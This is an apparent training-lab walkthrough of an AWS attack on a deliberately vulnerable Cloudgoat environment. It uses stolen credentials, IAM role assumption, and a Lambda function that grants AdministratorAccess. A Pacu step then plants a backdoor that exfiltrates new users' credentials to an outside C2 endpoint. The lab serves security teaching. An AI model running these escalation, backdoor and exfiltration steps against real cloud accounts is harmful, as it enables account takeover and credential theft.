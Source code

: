 .. _lambda_lab:

|
|



Serverless Persistence Attack
============

Start attack
++++++++++++

At this point we have created vulnerable infrastructure in AWS using
Cloudgoat. Starting as an anonymous outsider with no access or
privileges.

- Create a new aws profile with scenarios stolen credentials

.. code:: console

    aws configure --profile chris

-  Set the ``AWS Access Key ID`` and ``AWS Secret Access Key`` using the
   stolen chris credentials (Chris was created by Cloudgoat)

-  Set the “Default region” to ``us-east-1`` and the “Default output” format to
   ``json``

- Do discovery to find the username associated with the access key

.. code:: console

    aws sts get-caller-identity --profile chris

- With the username list all user policies and copy the policy ARN to your text file

.. code:: console

    aws iam list-attached-user-policies --user-name <associated user name> --profile chris

.. figure:: ./images/SetupInfra.png
   :alt: SetupInfra

- Get current version of the policy using the ARN from the previous step

.. code:: console

    aws iam get-policy-version --policy-arn <ARN> --version-id v1 --profile chris 

The policy allows the user to assume and list roles

.. figure:: ./images/GetPolicy.png
   :alt: GetPolicy

- List the roles and copy the ``Role Name`` and ``ARN`` of the role name to your text file

.. code:: console

    aws iam list-roles --profile chris | grep cg-debug-role-lambda 
    
.. code:: console

    aws iam list-roles --profile chris | grep cg-lambdaManager-role-lambda 

- Use the role name output to list the attached policies and copy the ``Policy Name`` and ``ARN`` output to your text file

.. code:: console
   
    aws iam list-attached-role-policies --role-name <debug role name> --profile chris
    
.. code:: console

    aws iam list-attached-role-policies --role-name <lambda manager role name> --profile chris

.. figure:: ./images/ListRolePolicies.png
   :alt: ListRolePolicies

- From that output you can see
   - ``cg-debug-role-lambda_privesc`` can be assumed by a Lambda
   - ``cg-lambdaManager-role-lambda_privesc`` can be assumed by your user

- Let’s get the polices attached to the role we can assume

.. code:: console

    aws iam get-policy-version --policy-arn <lambdaManager policy ARN> --version-id v1 --profile chris

- From the output we can see the role has Lambda admin permissions

Create Lambda Function 
+++++++++++++++++++++++

To assume the role you will need the role ARN for cg-lambdaManager-role-lambda.  If you need it again you can run ``aws iam list-roles --profile chris | grep cg-lambdaManager-role-lambda``

- Assume the role

.. code:: console

    aws sts assume-role --role-arn <Lambda Manager Role ARN> --role-session-name lambdaManager --profile chris

- When you assume the role new security credentials displayed.  You will need these to setup a new profile so copy them to your text tile 

.. figure:: ./images/AssumeLambdaManagerRole.png
   :alt: AssumeLambdaManagerRole

- Create a new AWS profile

.. code:: console

     aws configure --profile lambdaManager

-  Set the ``AWS Access Key ID`` and ``AWS Secret Access Key`` using the
   assumed role credentials 

-  Set the “Default region” to ``us-east-1`` and the “Default output” format to
   ``json``

-  Manually add the ``aws_session_token`` to the aws credentials file
   (use i for insert mode then esc :wq to save and close)

.. code:: console

     vi  ~/.aws/credentials

.. figure:: ./images/LambdaManagerKey.png
   :alt: LambdaManagerKey

- Create new file

.. code:: console 

     touch lambda_function.py && vi lambda_function.py

- Add contents to new file and update with your discovered username ``aws sts get-caller-identity --profile chris``

.. code:: python

    import boto3
    def lambda_handler(event, context):
            client = boto3.client('iam')
            response = client.attach_user_policy(UserName = '<username>', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
            return response

- Zip the file 

.. code:: console

    zip -q lambda_function.py.zip lambda_function.py


- Deploy and assign the Lambda function with the Lambda admin role.  This is the ARN from ``cg-debug-role-lambda_privesc`` discovered in a previous step by running ``aws iam list-roles --profile chris | grep cg-debug-role-lambda``

.. code:: console

    aws lambda create-function --function-name admin_function-<initials> --runtime python3.6 --role <Role ARN> --handler lambda_function.lambda_handler --zip-file fileb://lambda_function.py.zip --profile lambdaManager

- Invoke the new function 

.. code:: console

   aws lambda invoke --function-name admin_function-<initials> out.txt --profile lambdaManager

- Test privilege escalation user policy was applied.

.. code:: console

    aws iam list-attached-user-policies --user-name <username> --profile chris

.. figure:: ./images/ListAttachedPolicies.png
   :alt: ListAttachedPolicies

Serverless Persistence
+++++++++++++++++++++++

For this part of the attack we will use Pacu


-  Start pacu from the shell session by running ``~/pacu/cli.py``
-  Create new session in pacu named ``chris``
-  Add the keys from your AWS profile using ``import_keys chris``
-  List the Lambda functions with ``run lambda__enum``

.. figure:: ./images/LambdaEnum.png
   :alt: LambdaEnum

Create persistence with Lambda that creates a backdoor IAM user credentials.  This will require 2 inputs which you will need prior to proceeding
   - Role ARN from previous attack ``aws iam list-roles --profile chris | grep cg-debug-role-lambda``
   - exfil-url ``https://commander-api.vectratme.com/adduser``

Once you have the above values run the below in pacu.  You will be prompted for the ARN.

.. code:: console

    run lambda__backdoor_new_users --exfil-url https://commander-api.vectratme.com/adduser

.. figure:: ./images/LambdaBackdoor.png
   :alt: LambdaBackdoor
   
Persistence has been set. Lets create a new user to test it (you don't need to leave pacu)

.. code:: console
    
    aws iam create-user --user-name <initials> --profile chris

Now let’s visit our C2 site https://commander.vectratme.com/ to verify.  You will need a logon provided by Vectra.

.. figure:: ./images/C2Server.png
   :alt: C2


